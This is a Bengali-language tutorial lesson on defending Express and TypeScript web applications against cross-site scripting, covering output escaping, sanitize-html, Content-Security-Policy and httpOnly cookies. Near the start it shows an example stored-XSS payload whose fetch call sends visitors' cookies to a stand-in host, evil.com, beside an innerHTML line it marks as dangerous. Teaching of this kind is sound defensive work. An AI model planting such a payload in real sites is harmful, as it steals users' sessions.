

# ৩০.০৪. Cross-Site Scripting (XSS) Protection

আগের লেসনে আমরা দেখেছি SQL Injection-এ আক্রমণকারীর দূষিত ইনপুট গিয়ে ডেটাবেজের কমান্ড হিসেবে execute হয়। Cross-Site Scripting, সংক্ষেপে XSS, একই মূলনীতির (ইনপুট আর কোডের মধ্যে সীমারেখা ভেঙে ফেলা) একটা ভিন্ন দিক — এখানে আক্রমণকারীর দূষিত ইনপুট গিয়ে জমা হয়, আর পরে সেটা অন্য কোনো নিরীহ ইউজারের ব্রাউজারে **JavaScript হিসেবে execute হয়**। এটা বিশেষভাবে বিপজ্জনক, কারণ ব্রাউজারে execute হওয়া মানে আক্রমণকারীর কোড সেই ইউজারের cookie পড়তে পারে (Module 11-এ শেখা session cookie-সহ), তার হয়ে অ্যাকশন চালাতে পারে, এমনকি তার লগইন করা access token (Module 12, 29) চুরি করে ফেলতে পারে।

চলো একটা বাস্তব দৃশ্যকল্প দিয়ে বোঝা যাক। ধরো তোমার একটা ব্লগ অ্যাপ্লিকেশন আছে, যেখানে ইউজাররা কমেন্ট লিখতে পারে, আর সেই কমেন্ট অন্য সব ভিজিটরকে দেখানো হয়:

```ts
// বিপজ্জনক কোড: ফ্রন্টএন্ডে সরাসরি HTML হিসেবে বসানো হচ্ছে
element.innerHTML = comment.text;
```

যদি কেউ কমেন্ট হিসেবে লেখে `<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>`, আর এই টেক্সট বিনা sanitize-এ সরাসরি HTML হিসেবে render হয়, তাহলে প্রতিটা ভিজিটরের ব্রাউজারে এই স্ক্রিপ্টটা চুপচাপ execute হয়ে তাদের cookie আক্রমণকারীর সার্ভারে পাঠিয়ে দেয় — এটাকে বলে **Stored XSS**, কারণ দূষিত স্ক্রিপ্টটা ডেটাবেজে "জমা" থাকে এবং প্রতিবার পেজ লোড হলে নতুন ভিকটিমের উপর কার্যকর হয়। এর একটা ভাই আছে, **Reflected XSS**, যেখানে দূষিত স্ক্রিপ্ট জমা থাকে না, বরং সরাসরি একটা URL-এর ভেতরে (যেমন query parameter-এ) বসিয়ে ভিকটিমকে সেই লিংকে ক্লিক করানো হয়, আর সার্ভার সেই ইনপুট বিনা sanitize-এ সরাসরি রেসপন্সে ফিরিয়ে দিলে ব্রাউজারে execute হয়ে যায়।



XSS প্রতিরোধের মূল কৌশলটা একটা সহজ নীতিতে দাঁড় করানো যায় — **আউটপুট encode করো, প্রসঙ্গ (context) অনুযায়ী**। মানে, ইউজারের ইনপুট যখন HTML-এর ভেতরে বসছে, তখন সেই ডেটার ভেতরের বিশেষ অক্ষরগুলো (`<`, `>`, `"`, `'`, `&`) তাদের "নিরাপদ" রূপে (HTML entity) রূপান্তর করে দিতে হবে, যাতে ব্রাউজার সেগুলোকে কোড না ভেবে নিছক টেক্সট হিসেবে দেখায়।

Express + TypeScript ব্যাকএন্ডে, আমরা যদি নিজেরা HTML render করি (যেমন কোনো template engine দিয়ে), তাহলে বেশিরভাগ ভালো template engine (EJS, Handlebars) ডিফল্টভাবেই output escape করে:

```ts
// EJS টেমপ্লেটে
// <%= comment.text %>   -> স্বয়ংক্রিয়ভাবে escape হয়, নিরাপদ
// <%- comment.text %>   -> escape হয় না, শুধু তখনই ব্যবহার করবে যখন তুমি নিজে নিশ্চিত ডেটা নিরাপদ
```

কিন্তু আজকাল বেশিরভাগ প্রজেক্টে backend শুধু JSON রিটার্ন করে, আর React/Vue-এর মতো frontend framework সেটা render করে। React নিজে থেকেই JSX-এ বসানো ভ্যারিয়েবল escape করে দেয় (`{comment.text}` নিরাপদ), কিন্তু `dangerouslySetInnerHTML`-এর মতো API ব্যবহার করলে সেই সুরক্ষা হারিয়ে যায় — নামটাই সতর্ক করে দেয়। তাই backend-এর দায়িত্ব হলো, ইউজারের ইনপুট যেখানে সত্যিকারের rich-text HTML হওয়ার কথা (যেমন একটা blog editor থেকে আসা কনটেন্ট), সেখানে সংরক্ষণের আগেই একটা **HTML sanitizer** লাইব্রেরি দিয়ে বিপজ্জনক ট্যাগ ছেঁটে ফেলা:

```ts
// npm install sanitize-html
import sanitizeHtml from "sanitize-html";

router.post("/comments", authenticate, (req, res) => {
  const cleanText = sanitizeHtml(req.body.text, {
    allowedTags: ["b", "i", "em", "strong", "a"], // শুধু নিরাপদ ট্যাগ
    allowedAttributes: { a: ["href"] },
  });

  // এখন cleanText নিরাপদে ডেটাবেজে সংরক্ষণ করা যায়
  saveComment({ text: cleanText, userId: req.user!.sub });
  res.status(201).json({ message: "কমেন্ট সংরক্ষিত হয়েছে" });
});
```

সাধারণ প্লেইন-টেক্সট ফিল্ডের ক্ষেত্রে (যেখানে কোনো HTML-এরই দরকার নেই, যেমন username বা comment যদি plain text হওয়ার কথা), সবচেয়ে নিরাপদ পদ্ধতি হলো `<` আর `>`-এর মতো অক্ষর সম্পূর্ণ প্রত্যাখ্যান বা escape করে দেওয়া, রেন্ডারের সময় frontend-এর উপর নির্ভর না করে backend থেকেই ভ্যালিডেশন বসিয়ে দেওয়া (লেসন ৭-এ input validation নিয়ে বিস্তারিত)।

একটা বাড়তি, শক্তিশালী প্রতিরক্ষা স্তর হলো **Content-Security-Policy (CSP)** header — এটা ব্রাউজারকে বলে দেয় "এই পেজে শুধু নির্দিষ্ট উৎস থেকে script চালানো অনুমতি আছে, ইনলাইন script একদম চালাবে না"। এতে, sanitization কোনোভাবে ফসকে গেলেও, CSP inline `<script>` ব্লক করে দিতে পারে একটা দ্বিতীয় স্তর হিসেবে:

```ts
res.setHeader(
  "Content-Security-Policy",
  "default-src 'self'; script-src 'self'; object-src 'none';"
);
```

এই header ম্যানুয়ালি লেখা সম্ভব, কিন্তু লেসন ৬-এ আমরা দেখবো Helmet.js কীভাবে এটা আরও সহজে, গঠনগতভাবে সঠিকভাবে বসাতে সাহায্য করে।

এছাড়া, cookie-ভিত্তিক authentication ব্যবহার করলে (Module 11), `httpOnly` flag সেট করাটা XSS-এর বিরুদ্ধে একটা গুরুত্বপূর্ণ প্রতিরক্ষা — এই flag থাকলে JavaScript থেকে `document.cookie` দিয়ে সেই cookie পড়া যায় না, তাই কোনো XSS আক্রমণ সফল হলেও সেটা সরাসরি session cookie চুরি করতে পারবে না।

```ts
res.cookie("session", token, {
  httpOnly: true, // JavaScript থেকে অ্যাক্সেস করা যাবে না
  secure: true, // শুধু HTTPS-এ পাঠানো হবে
  sameSite: "strict", // পরের লেসনে বিস্তারিত
});
```

এই `sameSite` অপশনটা লক্ষ্য করো — এটা শুধু XSS না, বরং আরেকটা ভিন্ন ধরনের আক্রমণের বিরুদ্ধেও সুরক্ষা দেয়, যেখানে আক্রমণকারী ইউজারের cookie চুরি করে না, বরং তার cookie-কেই "ব্যবহার" করে তার অজান্তে একটা অ্যাকশন চালিয়ে দেয়। এই আক্রমণটাই আমরা দেখবো পরের লেসনে — Cross-Site Request Forgery, বা CSRF।
